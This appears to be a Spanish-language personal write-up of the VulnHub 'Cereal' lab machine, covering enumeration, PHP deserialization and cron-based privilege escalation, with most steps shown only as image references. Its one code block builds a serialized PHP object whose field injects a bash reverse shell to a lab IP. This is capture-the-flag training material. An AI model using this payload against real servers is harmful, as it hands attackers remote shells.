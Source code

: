 [[Vulnhub]] [[Disiplinas.]]

![[Pasted image 20230727104520.png]]

---
Martes 25 de Julio del 2023 Mexico.
CDMX-Polanco
Valente Spiegel

![[Pasted image 20230727103950.png]]

---

### Habilidades. 

Enumeración FTP 
Hospedaje Virtual 
Enumeración de Subdominios 
Divulgación de Información - Descubrimiento de Archivos de Respaldo 
Ataque de Deserialización PHP [RCE] 
Enumeración de Tareas Programadas (pspy) 
Abuso de Tarea Programada (Chown Symlink) [Escalada de Privilegios]

### Certificaciones.

eWPT  
eCPPTv2

---
### Creación de directorios para espacio de trabajo.

Es importante crear directorios o espacios de trabajo específicos al resolver una máquina.
Al crear un directorio o espacio de trabajo dedicado para una máquina de VulnHub, puedes mantener ordenada toda la información relacionada con esa máquina en un solo lugar. Esto incluye archivos de configuración, resultados de escaneos, notas y cualquier otro dato relevante. Una estructura organizada facilita el seguimiento del progreso, el acceso rápido a la información y la revisión posterior de los pasos realizados.

```
mkdir Cereal && cd Cereal && mkdir {Scan,Content,Exploits,Evidencia} && ls && cd Scan
```
![[Pasted image 20230727104049.png]]

---
### Descubrimiento de ip.

![[Pasted image 20230727105129.png]]
![[Pasted image 20230727105149.png]]

![[Pasted image 20230727105202.png]]

---
### Enumeramiento de puertos.


![[Pasted image 20230727110135.png]]

![[Pasted image 20230727110522.png]]

![[Pasted image 20230727110826.png]]
![[Pasted image 20230727110959.png]]

---

### Escaneo y enumeración web.


![[Pasted image 20230727111137.png]]

![[Pasted image 20230727111155.png]]
![[Pasted image 20230727112833.png]]
![[Pasted image 20230727112954.png]]

![[Pasted image 20230727113008.png]]

![[Pasted image 20230727113053.png]]

![[Pasted image 20230727113221.png]]
![[Pasted image 20230727113253.png]]

![[Pasted image 20230727114323.png]]

![[Pasted image 20230727132412.png]]

![[Pasted image 20230727132520.png]]

![[Pasted image 20230727132610.png]]

![[Pasted image 20230727133223.png]]

![[Pasted image 20230727133239.png]]

![[Pasted image 20230727134002.png]]
![[Pasted image 20230727145311.png]]

![[Pasted image 20230727145517.png]]

![[Pasted image 20230801112158.png]]

---
### Escalamiento a usuario.

El código PHP que proporcionas parece tener la intención de serializar un objeto `pingTest` y luego imprimir el resultado codificado en URL. Sin embargo, hay un problema en la declaración de la propiedad `$ipAddress`. Parece que intentas ejecutar un comando de shell malicioso dentro de la propiedad, lo cual es una grave vulnerabilidad de seguridad.

El comando malicioso que se ha incluido en la propiedad `$ipAddress` es una forma de intentar obtener una shell inversa en el servidor objetivo. Es una práctica muy peligrosa e insegura, y no debería ser usada en ningún entorno, ya que podría ser utilizada para llevar a cabo ataques y acciones maliciosas.

```
<?php 
class pingTest { 
public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.153.129/443 0>&1'"; 
public $isValid = True; 
public $output = ""; } 
echo urlencode(serialize(new pingTest)); ?>
```

![[Pasted image 20230801115652.png]]

![[Pasted image 20230801115809.png]]

![[Pasted image 20230801120333.png]]

![[Pasted image 20230801120841.png]]

![[Pasted image 20230801120650.png]]

---
### Tratamiento de Shell y tty

![[Pasted image 20230801121316.png]]

![[Pasted image 20230801121420.png]]

![[Pasted image 20230801121536.png]]

---
### Usuario Rocky.


![[Pasted image 20230801122245.png]]

![[Pasted image 20230801122449.png]]

![[Pasted image 20230801125810.png]]

![[Pasted image 20230801130153.png]]

![[Pasted image 20230801130203.png]]

![[Pasted image 20230801130242.png]]
![[Pasted image 20230801130341.png]]

---
### Escalamiento a root.

![[Pasted image 20230801133848.png]]

![[Pasted image 20230801133928.png]]

![[Pasted image 20230801134531.png]]

![[Pasted image 20230801134736.png]]

![[Pasted image 20230801134851.png]]

![[Pasted image 20230801134940.png]]

![[Pasted image 20230801135032.png]]

![[Pasted image 20230801135058.png]]


